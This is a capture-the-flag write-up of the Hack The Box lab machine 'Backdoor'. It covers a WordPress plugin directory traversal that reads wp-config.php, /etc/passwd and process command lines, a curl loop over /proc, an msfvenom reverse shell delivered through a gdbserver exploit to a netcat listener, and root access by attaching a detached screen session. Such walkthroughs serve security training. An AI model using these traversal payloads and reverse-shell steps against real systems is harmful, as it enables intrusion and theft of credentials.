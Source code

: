 ```yaml
---
layout: post
title: "HTB: Backdoor"
author: Andrew Cherney
date: 2023-02-16 17:35:05
tags: easy-box htb
icon: "assets/icons/backdoor.png"
post_description: "This box involves quite a bit of enumeration and creativity to solve for an easy box. First you need to identify the plugins of the wordpress site, then identify the vulnerable one. After that the processes are to be read and scoured for a foothold after discovering a vulnerable service on port 1337. Root can then be obtained by attaching a detached root screen."
---
```


<h1>Summary</h1>

{{ page.post_description }}

<h1>Enumeration</h1>

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Backdoor]
└──╼ $nmap -Pn -sC 10.10.11.125
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-16 17:44 CST
Nmap scan report for 10.10.11.125
Host is up (0.055s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp open  http
|_http-title: Backdoor &#8211; Real-Life
|_http-generator: WordPress 5.8.1

Nmap done: 1 IP address (1 host up) scanned in 19.01 seconds
```

<h2>Port 80 - http</h2>

{% include img_link src="/img/backdoor/front_page" alt="front_page" ext="png" trunc=500 %}

There is a basic wordpress site with nothing immediately out of the ordinary. I toss out a dirb scan but only the usual files and directories reveal themselves. A good place from here is to look at what plugins (if any) are being run. 

<h2>Wordpress Plugins</h2>

![plugin screen](/img/backdoor/wp_content.png)

<h3>ebook-download</h3>

Well there is something here. I throw out a search on exploit-db and would you believe I find [this directory traversal vulnerability](https://www.exploit-db.com/exploits/39575). There is a php file named **filedownload.php** that I can use **../..** to travel up directories and download anything that www-data can access. Obvious next step here is to grab **wp-config.php** and look for hard coded passwords, then read **/etc/passwd**. 

```
http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../etc/passwd
```

wp-config contained:

```
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wordpressuser' );

/** MySQL database password */
define( 'DB_PASSWORD', 'MQYBJSaD#DxG6qbm' );
```

**/etc/passwd** for a potential user contained:

```
user:x:1000:1000:user:/home/user:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false
```

I suppose I can try to login, but that password does not work for user. Additionally those names do not work with the password to login to Wordpress. Okay, so my guess here is the SQL service that these credentials work with is exposed and didn't trip in the initial scan.

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Backdoor]
└──╼ $nmap -Pn -sC 10.10.11.125 -p 1337
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-16 19:06 CST
Nmap scan report for 10.10.11.125
Host is up (0.048s latency).

PORT     STATE SERVICE
1337/tcp open  waste
```

<h2>Process Reading</h2>

Well that's not SQL, probably useful though. From here I have the ability to read files accessible to www-data and I need to use it to gain more knowledge somehow. The best thing I could think of is **/proc** contains all running processes and I can read <code>/proc/#/cmdline</code> to see what commands or services are active. I'll boot up burpsuite and fuzz the process numbers and go from there. 

```
http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../proc/#/cmdline
```

I will alternatively write a bash script since it will be quicker and I can use grep to sort out results.

```
#!/bin/bash

for i in {1..2000}
do
curl "http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../proc/$i/cmdline" > ./prc/$i
done
```

<h1>User as user</h1>

<h2>gdbserver RCE</h2>

```
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Backdoor/prc]
└──╼ $grep -iR --text "1337"
853:../../../../../../proc/853/cmdline../../../../../../proc/853/cmdline../../../../../../proc/853/cmdline/bin/sh-cwhile true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done<script>window.close()</script>
```

That service on port 1337 is gdbserver. Okay ... if I search that service on exploit-db and find an RCE script of a specific version. I need to make a payload with msfvenom, then run the python script and set up a listener. Let's give this a shot. 

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Backdoor]
└──╼ $msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.14 LPORT=7777 PrependFork=true -o rev.bin
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 106 bytes
Saved as: rev.bin
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Backdoor]
└──╼ $python3 gdbexploit.py 10.10.11.125:1337 rev.bin 
[+] Connected to target. Preparing exploit
[+] Found x64 arch
[+] Sending payload
[*] Pwned!! Check your listener
```

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Backdoor]
└──╼ $nc -nvlp 7777
listening on [any] 7777 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.125] 44424
whoami
user
cat user.txt
de65d53143451-------------------
```

<h1>Root</h1>

<h2>screen</h2>

While I was scouring through the processes I did come across one for the command screen. 

```bash
ps -aux | grep screen
root         857  0.0  0.0   2608  1836 ?        Ss   Feb16   0:05 /bin/sh -c while true;do sleep
 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \;; done
```

This seems to imply there is a root screen that is currently detached. To gain root I need to create a terminal, and then export a TERM for screen to default to, then attach the root session. It took a little troubleshooting but <code>script /dev/null</code> fixes an error that screen sometimes has.

```bash
script /dev/null                                                                
Script started, file is /dev/null                                               
$ export TERM=xterm                                                             
export TERM=xterm                                                               
$ screen -r root/root  
root@Backdoor:~# cat /root/root.txt                                             
cat /root/root.txt                                                              
fdb2aa71188f4-------------------
```

